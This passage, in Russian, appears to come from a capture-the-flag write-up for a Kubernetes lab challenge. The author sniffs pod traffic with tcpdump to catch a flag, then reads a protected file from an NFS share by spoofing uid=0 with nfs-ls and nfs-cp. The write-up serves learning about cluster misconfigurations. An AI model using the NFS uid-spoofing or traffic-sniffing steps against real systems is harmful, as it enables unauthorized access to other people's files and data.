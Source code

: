```
x-envoy-decorator-operation: :0/*
< transfer-encoding: chunked
transfer-encoding: chunked
```

Тогда решил поснифить трафик целиком:
```
tcpdump -avvs0

    192.168.3.89.45478 > reporting-service.k8s-lan-party.svc.cluster.local.http: Flags [P.], cksum 0x7add (incorrect -> 0xaa2b), seq 1:215, ack 1, win 502, options [nop,nop,TS val 2700997730 ecr 311445796], length 214: HTTP, length: 214
        POST / HTTP/1.1
        Host: reporting-service
        User-Agent: curl/7.64.0
        Accept: */*
        Content-Length: 63
        Content-Type: application/x-www-form-urlencoded

        wiz_k8s_lan_party{good-crime-comes-with-a-partner-in-a-sidecar}
```

Букавально сразу же зацепился глазом за флаг.


# 3 Exposed File Share

В аннотации написано про старую сетевую хранилку. Мысли возникли про GusterFS и NFS. Первым делом поискал в mount IP-адреса:

```
mount | grep -E '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}'
fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com:/ on /efs type nfs4 (ro,relatime,vers=4.1,rsize=1048576,wsize=1048576,namlen=255,hard,noresvport,proto=tcp,timeo=600,retrans=2,sec=sys,clientaddr=192.168.4.189,local_lock=none,addr=192.168.124.98)
```

Отлично, в `/efs` лежит флаг осталось его забрать:

```
cat: /efs/flag.txt: Permission denied
```

С локальной системы под моим юзером его не взять. Нужно пробовать по сети. Набрал в строке nfs и нажал `tab`. У меня в поде оказывается есть nfs-утилиты. Я долго тупил, даже хотел взять подсказку, поскольку без `?version=4.1` команда молчала.

```
nfs-ls nfs://192.168.124.98/?version=4.1
----------  1     1     1           73 flag.txt
```

Получив листинг, я стал увереным, что смогу скопировать файл себе. Но получил ошибку `failed with NFS4ERR_ACCESS(-13)"`. Эта ошибка известна в интернетах и решается указание uid=0:

```
nfs-cp 'nfs://192.168.124.98//flag.txt?version=4.1&uid=0' xz2
copied 73 bytes
```
Флаг получен:
